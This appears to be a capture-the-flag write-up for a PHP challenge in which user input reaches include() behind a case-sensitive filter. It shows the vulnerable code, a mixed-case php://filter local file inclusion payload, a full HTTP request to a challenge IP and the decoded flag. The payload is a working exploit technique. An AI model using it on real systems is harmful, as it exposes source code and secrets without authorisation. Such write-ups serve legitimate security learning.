


### Question

> Name: Local Fan Interaction .. ?-
> Couldn't get the question and CTF ended :\
> Points: 500
> Solves: ~40

### Solution

- It's a nice PHP code

- ```php
  <?php
  //Conifg
  require("flag.php");
  highlight_file(__FILE__);
  
  //Juicy part
  if(isset($_POST["hmmm"])){
      $inp=preg_replace("/filter/","Kahoul is supervising",$_POST["hmmm"]);
      include($inp);
  }
  ?>
  ```

- 

- We know there is a `hmmm` POST param that should have the payload

- We know it's a `PHP Wrappers` trick of type `filter` from the regex replace

- The regex is vuln because it's case sensitive so we if type in `/Filter/` we can bypass it

- A payload from the Internet we found `pHp://FilTer/convert.base64-encode/resource=index.php`

- We just need to change it to `flag.php` as the code has that file required so the flag is probably there

- New payload `pHp://FilTer/convert.base64-encode/resource=flag.php`

- Burp Suite all-in-one payload

- ```http
  POST / HTTP/1.1
  Host: 54.221.24.51
  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate
  DNT: 1
  Connection: close
  Upgrade-Insecure-Requests: 1
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 0
  
  hmmm=pHp://FilTer/convert.base64-encode/resource=flag.php
  ```

- This will print for us the flag in base64, decode it :)

- 

- Base64:`PD9waHAKJGZsYWc9IkZMQUd7UmVhbGx5X1NtNHJ0X1lvdV80cjN9IjsKPz4K`

- Decoded:

- ```php
  <?php
  $flag="FLAG{Really_Sm4rt_You_4r3}";
  ?>
  ```

- Flag: `FLAG{Really_Sm4rt_You_4r3}`
